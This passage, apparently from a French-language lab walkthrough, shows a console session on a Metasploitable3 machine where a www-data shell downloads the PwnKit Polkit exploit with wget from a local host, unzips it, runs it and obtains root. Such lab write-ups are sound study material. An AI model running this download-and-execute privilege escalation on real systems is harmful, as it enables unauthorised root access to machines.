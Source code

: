 ```
```

Ici j'utilise PwnKit, un exploit pour Polkit :

```console
$ www-data@metasploitable3-ub1404:/var/www/uploads$ wget http://192.168.1.47/PwnKit-main.zip
--2025-06-05 14:07:38--  http://192.168.1.47/PwnKit-main.zip
Connecting to 192.168.1.47:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 337827 (330K) [application/zip]
Saving to: 'PwnKit-main.zip'

     0K .......... .......... .......... .......... .......... 15% 5.58M 0s
    50K .......... .......... .......... .......... .......... 30% 5.30M 0s
   100K .......... .......... .......... .......... .......... 45% 7.27M 0s
   150K .......... .......... .......... .......... .......... 60% 66.1M 0s
   200K .......... .......... .......... .......... .......... 75% 22.6M 0s
   250K .......... .......... .......... .......... .......... 90% 9.79M 0s
   300K .......... .......... .........                       100% 79.7M=0.03s

2025-06-05 14:07:38 (9.79 MB/s) - 'PwnKit-main.zip' saved [337827/337827]

www-data@metasploitable3-ub1404:/var/www/uploads$ unzip PwnKit-main.zip
Archive:  PwnKit-main.zip
1923ad7b438ae82eaa2162e15a1e1b810712e54e
   creating: PwnKit-main/
  inflating: PwnKit-main/LICENSE     
  inflating: PwnKit-main/Makefile    
  inflating: PwnKit-main/PwnKit      
  inflating: PwnKit-main/PwnKit.c    
  inflating: PwnKit-main/PwnKit.sh   
  inflating: PwnKit-main/PwnKit32    
  inflating: PwnKit-main/README.md   
   creating: PwnKit-main/imgs/
  inflating: PwnKit-main/imgs/exploit.png  
  inflating: PwnKit-main/imgs/oneliner.png  
  inflating: PwnKit-main/imgs/patched.png  
www-data@metasploitable3-ub1404:/var/www/uploads$ cd PwnKit-main
www-data@metasploitable3-ub1404:/var/www/uploads/PwnKit-main$ ./PwnKit
stdin: is not a tty
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
